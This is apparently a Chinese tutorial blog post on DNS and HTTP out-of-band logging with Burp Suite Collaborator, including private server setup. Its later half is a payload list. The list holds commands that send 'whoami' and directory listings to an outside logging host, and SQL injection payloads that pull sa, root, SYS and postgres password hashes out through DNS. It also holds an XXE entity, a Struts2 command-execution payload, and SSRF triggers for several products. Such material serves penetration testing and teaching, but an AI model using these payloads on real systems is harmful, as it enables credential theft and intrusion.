






# burp suite中的dnslog

[注]本文提到的burp均为付费专业版，免费社区版不具有该功能。


## 0x00 什么是dnslog

	dnslog，顾名思义，就是dns服务产生的日志。有什么用呢？我们可以用子域名来携带出信息。
	
	这种套路主要用于渗透测试中的盲打。执行系统命令没有回显的时候，sql盲注的时候，xss想将cookie带出来的时候……将你想得到的信息放在自己的域名前面作为子域名，dns服务器解析该域名时产生的日志中将会包含整个域名。如果携带的信息太长，可能dns就携带不了了，好在通常dnslog平台同时也提供http日志，可以使用http请求携带更多信息。

## 0x01 burp suite中的dnslog功能

	**Collaborator client** ，相比Burp中的`proxy`、`instruder`、`scanner`等功能，这个功能可能鲜为人知了吧！启动位置如下图，`Butp`→`Burp Collaborator client`。



	启动Collaborator client后显示如下页面，burp会分配给我们一个三级域名，点击`Copy to clipbord`可以将域名复制到粘贴板，如`p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net` 。



	下面举个简单的例子，在Linux shell中执行如下命令：

```bash
ping `whoami`.p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net
```

	点击Collaborator client窗口中的Poll now获取dnslog，如下图，在log条目区域显示两条日志，在下面的日志详情中我们看到了从子域名中携带出了`whoami`的执行结果。



	

	如果想执行ls查看根目录有哪些文件，用dns携带不了那么多信息，转而使用http请求，执行如下命令：

```bash
curl p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

	再次点击Collaborator client窗口中的Poll now获取log，我们可以在log区看到一条http日志，我们查看请求原始信息可以看到请求体中携带出了`ls -al /`的执行结果。



	有没有觉得明文携带这些信息太不安全了？可是使用https安全传送，例如：

```bash
curl https://p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

	最后的结果和使用http一样。burp的dnslog功能也是相当全的。

## 0x02 私有的Collaborator server

	上面举例的是使用burp的公共Collaborator server，有时我们需要使用私有的Collaborator server。使用公共的Collaborator server，但是，信息存储在别人的服务器上是没有保密性可言的。还有一种情况，就是需要渗透的目标在内网且不与外网互通的情况下，就得使用私有的Collaborator server。
	
	下面我们来看看如何搭建私有的Collaborator server。burp提供了搭建Collaborator server的功能，在服务器上执行`sudo java -jar burp.jar --collaborator-server` 即带`--collaborator-server`参数运行burp即可启动服务。
	
	然后在客户端配置，以此打开`Project options`→`Misc`→`Burp Collaborator server` ，选择`Use a private Collaborator server` ，在`Server location`中设置服务器域名，没有域名的情况下可以使用IP，如果按IP地址指定服务器，则无法使用依赖于DNS解析的Burp与Collaborator相关的功能。 另外，默认情况下，Burp通过HTTPS轮询Collaborator服务器，并强制实施SSL信任以防止中间人攻击。如果您的Burp实例由于网络或其他限制而无法通过HTTPS直接轮询，您可以选择轮询未加密的HTTP。由于没有配置ssl证书，所以此处勾选`Poll over unencrypted HTTP`即使用未加密的http轮询。详情如下图：



	最后，我们点击`Run health check...`进行检查，发现部分可功能不可用，如下图：



​	幸运的是，已经可以使用http请求了，使用方法和使用公共Collaborator server时一样，参见本文[0x01]。若要充分利用Collaborator服务器的功能，通常还需要创建合适的[配置文件](https://portswigger.net/burp/documentation/collaborator/deploying#collaborator-configuration-file-format)。
	
	以下配置相关类容来自burp官网，然后机翻的结果：

>协作者配置文件格式
>Burp Collaborator服务器的所有选项均使用配置文件进行控制。默认情况下，Collaborator服务器 在当前工作目录中查找名为collaborator.config的文件 。可以使用--collaborator-config 参数从命令行覆盖此位置 ，例如:
>
>`sudo java -jar burp.jar --collaborator-server --collaborator-config = myconfig.config`
>
>配置文件使用JSON格式，支持注释。如果需要IP地址，您可以配置单个地址或地址列表。例如，以下任一项都可用于配置网络接口的本地地址:
>
>`"localAddress":"10.20.0.159" `
>`"localAddress":["10.20.0.159"，"127.0.0.1"]`
>
>完整的示例配置文件以及每个可用选项的说明如下所示:
>
>```json
>{ 
>  "serverDomain":"burpcollaborator.example.com",
>  "workerThreads":10,
>  "eventCapture":{ 
>    "localAddress":["10.20.0.159","127.0.0.1"],
>    "publicAddress":"10.20.0.159 ",
>    "http":{ 
>      "ports":80 
>    },
>    "https":{ 
>      "ports":443 
>    },
>    "smtp":{ 
>      "ports":[     25,587 ] 
>    },
>"smtps":{ 
>      "ports" :465 
>    },
>    "ssl":{ 
>      "certificateFiles":[ 
>        "keys / burpcollaborator.example.com.key.pkcs8",
>        "keys / burpcollaborator.example.com.crt",
>        "keys / intermediate.crt"] 
>    } 
>  },
>  "polling":{ 
>    "localAddress":"127.0.0.1",
>    "publicAddress":"10.20.0.159",
>    "http ":{ 
>      "port":9090 
>    },
>    "https":{ 
>      "port":9443 
>    },
>    "ssl":{ 
>      "hostname":"collaboratorpolling.example.com" 
>    } 
>  },
>  "metrics":{ 
>    "path": "jnaicmez8"
>    "addressWhitelist":["21.10.23.0/24"] 
>  },
>  "dns":{
>    "interfaces":[{ 
>      "name":"ns1",
>      "localAddress":"34.23.11.6",
>      "publicAddress":"98.87.76.55" 
>    },{ 
>      "name":"ns2",
>      "localAddress":"34.23 .11.6",
>      "publicAddress":"98.87.11.00" 
>    }],
>    "ports":53 
>  },
>  "logLevel":"INFO" 
>}
>```

| SERVERDOMAIN                 | Collaborator服务器将控制DNS的域或子域。DNS功能需要此设置。   |
| ---------------------------- | ------------------------------------------------------------ |
| workerThreads                | Collaborator用于处理传入请求的线程数。                       |
| eventCapture.localAddress    | 默认情况下，Collaborator将侦听所有本地接口以捕获交互事件。如果指定，它将仅侦听已配置的接口。 |
| eventCapture.publicAddress   | 用于捕获交互事件的公共IP地址。                               |
| eventCapture.http.ports      | 用于侦听HTTP交互事件的端口。如果正在转发端口80，则只应从默认值更改。 |
| eventCapture.https.ports     | 用于侦听HTTPS交互事件的端口。如果正在转发端口443，则只应从默认值更改。 |
| eventCapture.smtp.ports      | 用于侦听SMTP交互事件的端口。如果正在转发端口25和587，则只应从默认值更改。 |
| eventCapture.smtps.ports     | 用于侦听SMTPS交互事件的端口。如果正在转发端口465，则只应从默认值更改。 |
| eventCapture.https.hostname  | 用于生成自签名证书。有关详细信息，请参阅[SSL配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。 |
| polling.localAddress         | 默认情况下，Collaborator将使用相同的网络接口捕获交互事件和提供轮询请求。如果指定，它将使用不同的接口来轮询请求。 |
| polling.publicAddress        | 用于提供轮询请求的公共地址。                                 |
| polling.http.port            | 用于通过HTTP轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。 |
| polling.https.port           | 用于通过HTTPS轮询的端口。这可能是非标准的，需要[配置](https://portswigger.net/burp/documentation/desktop/options/misc-project#burp-collaborator-server) Burp Suite 才能使用它。 |
| polling.https.hostname       | 用于生成自签名证书。有关详细信息，请参阅[SSL配置](https://portswigger.net/burp/documentation/collaborator/deploying#ssl-configuration)。 |
| metrics.path                 | 可以访问度量标准页面的URL路径。                              |
| metrics.whitelist            | 允许访问指标页面的客户端IP地址白名单。                       |
| dns.ports                    | 用于侦听DNS查询的端口。如果正在转发端口53，则只应从默认值更改。 |
| dns.interfaces               | 用于侦听DNS查询的本地接口列表。如果您的注册商要求您为每个权威名称服务器配置不同的IP地址，则可以使用多个网络接口并使用此选项配置其位置。 |
| dns.interfaces.name          | 用于在此接口上运行的名称服务器的主机名。每个名称服务器应使用不同的主机名（例如ns1，ns2等）。 |
| dns.interfaces.localAddress  | 要绑定到此名称服务器的本地地址。                             |
| dns.interfaces.publicAddress | 与配置的本地地址对应的公共IP地址。通常，您需要在域的DNS记录中使用配置的主机名和公共IP地址。 |
| LOGLEVEL                     | 标准输出所需 的[日志记录](https://portswigger.net/burp/documentation/collaborator/deploying#collaborator-logging)级别。 |

## 0x03 dnslog的更多骚操作


	以下内容来自dnslog开放平台[**ceye.io**](http://ceye.io/payloads)。

#### 0x00 Command Execution

#####  i. *nix:

```bash
curl http://ip.port.b182oj.ceye.io/`whoami`
ping `whoami`.ip.port.b182oj.ceye.io
```

##### ii. windows

```bash
ping %USERNAME%.b182oj.ceye.io
```

#### 0x01 SQL Injection

##### i. SQL Server

```sql
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.ip.port.b182oj.ceye.io';
EXEC('master..xp_dirtree
"\\'+@host+'\foobar$"');
```

##### ii. Oracle

```sql
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

##### iii. MySQL

```sql
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));
```

##### iv. PostgreSQL

```sql
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

#### 0x02 XML Entity Injection

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

#### 0x03 Others

##### i. Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

##### ii. FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

##### iii. Weblogic

```
 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

##### iv. ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

##### v. Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

##### vi. Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```
